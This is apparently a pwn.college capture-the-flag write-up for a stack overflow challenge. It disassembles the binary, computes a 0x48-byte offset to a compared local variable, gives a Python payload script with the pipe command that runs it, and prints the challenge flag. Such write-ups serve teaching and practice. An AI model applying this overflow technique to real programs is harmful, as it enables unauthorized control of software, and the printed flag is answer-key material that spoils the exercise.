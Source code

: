 # Variable Control (easy)

## Challenge
This challenge is identical to its "easy" version from a security perspective, but has the following changes:

- Unlike the easy version, it does not give you helpful debug output. You will have to recover this information using a debugger.
- The source code is not provided. You will need to reverse-engineer the binary, but remember, the challenge is conceptually the same as the easy version, so it can be helpful to have the easy version's source code as a secondary reference during your reversing process!
- Some randomization is different. Buffers might have different lengths, offsets might vary, etc. You will need to reverse engineer this information from the binary!

## Solve
**Flag:** `pwn.college{Iytg-wWXkaL8EazOV8cu_NwV8dZ.QX4UzMzwyNyAzNzEzW}`

#### What the Program Does?
Like the previous one, the challenge:
- Allocates a stack frame and a local buffer.
- Reads bytes from stdin into that buffer.
- Later, it loads a **4-byte local variable** from the stack (`mov -0x18(%rbp), %eax`) and compares that 32-bit value to the constant `0x5d36dc0a`.
- If equal, it calls the `win` function.
    ```assembly
      40206e:       3d 0a dc 36 5d          cmp    $0x5d36dc0a,%eax
      402073:       75 0a                   jne    40207f <challenge+0x11f>
      402075:       b8 00 00 00 00          mov    $0x0,%eax
      40207a:       e8 da fd ff ff          call   401e59 <win>
  ```
#### Aim:
Place the required 32-bit value at the right spot on the stack.

#### Where to place the magic number - offset math
From the assembly, we can infer that:
```asm
buffer base:       -0x60  <-- read writes starting here
...
buffer + 0x48:     -0x18  <-- program reads 4 bytes here into EAX and compares
...
canary location:   -0x8   <-- saved stack canary (if we overwrite past this, stack check fails)
```
We need the magic to live at address -0x18(%rbp) but read starts at -0x60(%rbp).

Compute difference:
- `0x60` minus 0x18:
    - `0x60 = 96` (decimal)
    - `0x18 = 24` (decimal)
    - `96 - 24 = 72` (decimal)
    - `72` decimal = `0x48` hex

So the magic must begin **72 bytes (0x48)** after the buffer start.
That means: `72 bytes filler + 4 bytes magic` = the bytes that land at `-0x18`.

We use a custom script to pass the number to the executable.
**Also, keep the little-endian in mind while writing the payload.**

#### Python Script Used
```python
payload = b'A'*0x48 + b'\x0a\xdc\x36\x5d'   # 0x48 filler, then 0x5d36dc0a little-endian
open('payload.bin','wb').write(payload)
```
#### Commands used after creating the script
```
python script.py
cat payload.bin | /challenge/./binary-exploitation-var-control
```

## New Learnings
- Disassembling binaries.
- Reading assembly.
